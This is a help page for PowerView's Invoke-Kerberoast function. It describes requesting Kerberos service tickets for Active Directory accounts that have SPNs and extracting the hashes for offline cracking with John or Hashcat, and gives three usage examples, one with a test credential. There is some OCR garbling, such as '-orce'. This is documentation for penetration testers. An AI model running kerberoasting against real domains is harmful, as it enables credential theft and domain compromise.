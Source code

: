 # Invoke-Kerberoast

## SYNOPSIS
Requests service tickets for kerberoast-able accounts and returns extracted ticket hashes.

Author: Will Schroeder (@harmj0y), @machosec  
License: BSD 3-Clause  
Required Dependencies: Invoke-UserImpersonation, Invoke-RevertToSelf, Get-DomainUser, Get-DomainSPNTicket

## SYNTAX

```
Invoke-Kerberoast [[-Identity] <String[]>] [-Domain <String>] [-LDAPFilter <String>] [-SearchBase <String>]
 [-Server <String>] [-SearchScope <String>] [-ResultPageSize <Int32>] [-ServerTimeLimit <Int32>] [-Tombstone]
 [-OutputFormat <String>] [-Credential <PSCredential>]
```

## DESCRIPTION
Uses Get-DomainUser to query for user accounts with non-null service principle
names (SPNs) and uses Get-SPNTicket to request/extract the crackable ticket information.
The ticket format can be specified with -OutputFormat \<John/Hashcat\>.

## EXAMPLES

### -------------------------- EXAMPLE 1 --------------------------
```
Invoke-Kerberoast | fl
```

### -------------------------- EXAMPLE 2 --------------------------
```
Invoke-Kerberoast -Domain dev.testlab.local | fl
```

### -------------------------- EXAMPLE 3 --------------------------
```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -orce
```

$Cred = New-Object System.Management.Automation.PSCredential('TESTLB\dfm.a', $SecPassword)
Invoke-Kerberoast -Credential $Cred -Verbose | fl

## PARAMETERS
